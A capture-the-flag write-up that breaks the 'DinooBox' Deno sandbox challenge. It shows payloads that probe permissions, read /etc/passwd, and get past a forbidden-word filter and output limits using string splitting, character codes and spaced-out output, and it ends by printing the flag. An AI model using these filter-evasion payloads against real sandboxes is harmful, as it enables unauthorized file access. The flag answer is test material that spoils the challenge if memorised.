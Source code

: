 ## Introduction

![](images/image.png)

**DinooBox** is a sandbox as a service, it executes code and returns the result. 
based on the name, and image, we can assume that the runtime is Deno. 
Nothing much to say about the frontend, we check the source code for the backend.

## Analysis

In the backend, we can see a couple of functions, `spotForbiddenWords` and `spotLargePayload` that are used to check the payload before executing it. `spotForbiddenWords` checks for some forbidden words, and `spotLargePayload` checks for the size of the payload. 
the check is done before executing the code and then on the output of the eval function. the maximum length of the allowed code is 190 characters, and the maximum size of the output is 32 characters.
Some forbidden words are related to http requests and terminal commands like `ls` and
`cat`, and some are related to the file system like `readFile`. In addition to `[` , `]` , `\` and the words `flag` and `index` and obiously `eval`.
We can also see that the code is executed in a try block, and if an error occurs, the error is returned to the client. and some of the errors are **Permission** related errors.

If this is the first time you see Deno, (you can read more about it [here](https://deno.land/)), Deno has a system that checks for specific permissions before executing the code, and if the code tries to access a resource that it doesn't have permission to, it will throw an error, which makes it much safer than Node.js.
Before we start, we need to know which permissions are allowed, and which are not. The
ones that we would hope for are `Subprocess` and `Read`.

To check if Subprocess is allowed, we can use `Deno.run`.

```ts
function run() {
    // we use .split() to create an array since [] is forbidden
    Deno.run({ cmd: "whoami".split() })
    return ""
}

run()

// Deno.run is not a function
```

So, Subprocess is not allowed. To check if Read is allowed, we can use `Deno.cwd` to get the current working directory, which requires the permission to read the current folder.

```ts
function run() {
    Deno.cwd()
    return ""
}

run()

// No Output
```

So, Read is allowed in the current directory. Just to check if we can read files in other directories, we can use `Deno.readTextFile` (since it is the only one that were not included in the forbidden list) to read the `/etc/passwd` file.
- we use `String.fromCharCode(47)` to get the `/` character since it is forbidden
- since `etc` is forbidden, and it is a simple string, we can split it into two
strings and concatenate them like this: `'et' + 'c'`

```ts
async function run() {
    const sl = String.fromCharCode(47)
    await Deno.readTextFile(sl + 'et' + 'c' + sl + 'passwd')
    return ""
}

run()

// You have no rights to do that
```

So, the Read permission is only limited in the current directory, Which we don't really need anyways.

## Exploitation

Since we can't execute subprocesses, we will rely on the native API to read and list the
folder content, we start by checking the current directory content with `Deno.readDir`, after checking the way to do it online, we can create a string that contains the file names and return it, to avoid working with arrays...

```ts
async function run() {
    let c = ""
    for await (let i of Deno.readDir(".")) {
    c += i.name + "#"
    }
    return c
}

run()

// Your Output contains forbidden word
```

Which means that resulting string contains a forbidden word, which is probably `flag`, or `index`. A way to leak the data is to use a simple encryption method like Caesar Cipher, or just inseting a space between each character would do it.

```ts
async function run() {
    let c = ""
    for await (let i of Deno.readDir(".")) {
        c += i.name + "#"
    }
    return c.split('').join(' ')
}

run()

// Too much content to return
```

Which means that the resulting string is too long, so we need to split it into multiple strings,  we use `.slice(0, 32)` to get the first 32 characters.
    
```ts
async function run() {
    let c = ""
    for await (let i of Deno.readDir(".")) {
        c += i.name + "#"
    }
    return c.split('').join(' ').slice(0, 32)
}

run()
    
// . 4 e v e r y o u r s # . e n v # . g i t i g n o r e # . h t a c c e s s # d e n o . j s o n # i n d e x . t s #
```

We can observe the current directory content which is:
- .4everyours
- .env
- .gitignore
- .htaccess
- deno.json
- index.ts

Now using the same techniques, we try to read the content of the files, using `Deno.readTextFile` , and we get the following output:

```ts
async function run() {
    let c = await Deno.readTextFile('.4ev' + 'eryours')
    return c.split('').join(' ').slice(0, 32)
}

run()

// I a m n o t
```

Clearly, this is not the flag, so we need to read the other files.
Checking `.env` and `.htaccess` files, we can see that they are just some rabbit holes, and some long content in deno.json and index.ts which we don't need.

The only file left is .gitignore , which raises an error `Is a directory (os error 21)`.
which indicates that it is a directory, so we can use `Deno.readDir` to read its content.

```ts
async function run() {
    let c = ""
    for await (let i of Deno.readDir(".gitignore")) {
        c += i.name + "#"
    }
    return c.split('').join(' ')
}

run()

// f l a g . t x t #
```

Now we can read the flag.

```ts
async function run() {
    const sl = String.fromCharCode(47)
    let c = await Deno.readTextFile('.gitignore' + sl + 'fla' + 'g.txt')
    return c.split('').join(' ').slice(0, 32)
}

run()

// E N I T { _ m Y _ s | f _ _ e s t 3 4 m _ H a S _ B _ l 0 s t }
```

## Conclusion
This challenge was a good introduction to Deno, I hope you enjoyed it.
NodeJs is not the only one to write Javascript you know, there's Deno and Bun and they are both pretty cool.

## Flag

> ENIT{_mY_s|f__es_t34m_HaS_B_l0st}